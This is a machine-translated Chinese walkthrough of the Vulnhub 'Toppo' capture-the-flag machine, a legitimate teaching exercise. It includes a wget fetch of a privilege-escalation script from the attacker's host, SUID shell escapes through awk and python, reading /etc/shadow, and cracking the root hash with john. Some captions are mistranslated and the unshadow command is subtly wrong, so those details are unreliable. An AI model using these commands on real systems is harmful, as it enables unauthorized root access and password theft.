# Vulnhub 报道— Toppo

> 原文：<https://infosecwriteups.com/vulnhub-toppo-writeup-1ac541bf185a?source=collection_archive---------0----------------------->

*这是从*[*Vulnhub*](https://www.vulnhub.com)*起的机器* [*Toppo*](https://www.vulnhub.com/entry/toppo-1,245/) *。*

# 摘要

Toppo 是基于 Linux 平台的初学者友好型机器。在管理员 note.txt 的帮助下，获得了用户并利用 SUID 可执行文件获得了根。

> 机器作者:[Hadi](https://twitter.com/@h4d3s99)机器类型:Linux
> 机器级别:初学者



IP 地址已给定，因此不需要网络发现。

# 扫描网络

```
nmap -sC -sV 192.168.0.103
```



man nmap



Toppo 上的 nmap

# 端口 80 上的 Dirbuster



可怕的结果

得到了 admin 目录下的 notes.txt。



/admin/notes.txt

上面的注释给了我们密码:- **12345ted123**

所以让我们试着猜测用户名**泰德**并试着登录 **ssh** 。

# 自己的用户



登录 ssh

```
$whoami ;id
```



man whoami 身份证明（identification）



自己的用户

# 权限提升

我使用这个脚本来找出权限提升的方法。

[](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py) [## sleventyeleven/Linux priv checker

### 一个 Linux 特权提升检查脚本

github.com](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py) 

```
$python -m SimpleHTTPServer
```

在本地启动 web 服务器以上传 toppo 机器上的 privchecker。



启动 python 服务器

寻找主机 IP 地址。



主机 IP

**在机器上下载脚本(toppo)**

```
 $wget [http://192.168.0.105:8000/linuxprivchecker.py](http://192.168.0.105:8000/linuxprivchecker.py)
```



男子 wget



在 toppo 下载 privchecker

```
$chmod +x linuxprivchecker.py
$ ./linuxprivchecker.py
```

在 toppo 上运行脚本。


运行 privchecker

它将提供一些方法来转义序列，我正在尝试使用 awk，你可以尝试任何一种。



输出

**根使用 awk**

```
$ awk 'BEGIN{system("/bin/sh")}'
```



男人 awk



使用 awk 的所有者用户

**/bin/bash** 没有给我们 root，这是因为 bash 有权限提升保护。但是/bin/sh 里没有这个东西。

让我们尝试一种不同的权限提升方法，在互联网上搜索时，我找到了这篇文章。

[](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) [## 基本 Linux 权限提升

### 在开始之前，我想指出——我不是专家。据我所知，没有

blog.g0tmi1k.com](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) 

**Root 使用 python**

```
find / -perm -g**=**s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld **{}** \; 2>/dev/null
```



从上面的 URL 抓取



找到烫发

python2.7 可以被利用。看到 SUID 了吗

```
$python2.7 -c “import pty; pty.spawn(‘/bin/sh’);”
```



拥有使用 python 的用户

**破解 root 密码**

```
$awk 'BEGIN{system("cat /etc/shadow")}'
```



/etc/shadow 文件

```
awk 'BEGIN{system("cat /etc/passwd")}'
```



/etc/passwd 文件

```
$unshadow passwd shadow < crack
```



男子 unshadow



取消阴影密码和阴影文件

```
john --wordlist /usr/share/john/password.lst crack
```



男人约翰



使用 john 查找散列类型

```
john --wordlist /usr/share/john/password.lst crack --format =sha512crypt
```



使用 john 破解 root 密码

# 自己的根



使用密码拥有根目录



旗

**0 wned lab { p 4 ssi0n _ c0me _ with _ pract 1ce }**

*感谢阅读！如果你喜欢这个故事，请* ***点击*** 👏 ***按钮，分享*** *帮助他人！欢迎发表评论*💬*下图。有反馈？下面我们连线上* [*推特*](https://twitter.com/yashanand155) *。*

[](https://twitter.com/yashanand155) [## inc0gnito (@yashanand155) |推特

### inc0gnito 的最新推文(@yashanand155)。CTF 玩家| | hack the box | | CTFs with @ ABS 0 lut 3 pwn 4g 3🚩。新德里…

twitter.com](https://twitter.com/yashanand155) [](https://medium.com/@yashanand155) [## 增量中等

### 从 inc0gnito 介质上读取文字。夺旗类游戏🚩|| HACKTHEBOX ||反转。每天，成千上万的人…

medium.com](https://medium.com/@yashanand155) 

## ❤️由[增加到](https://twitter.com/yashanand155)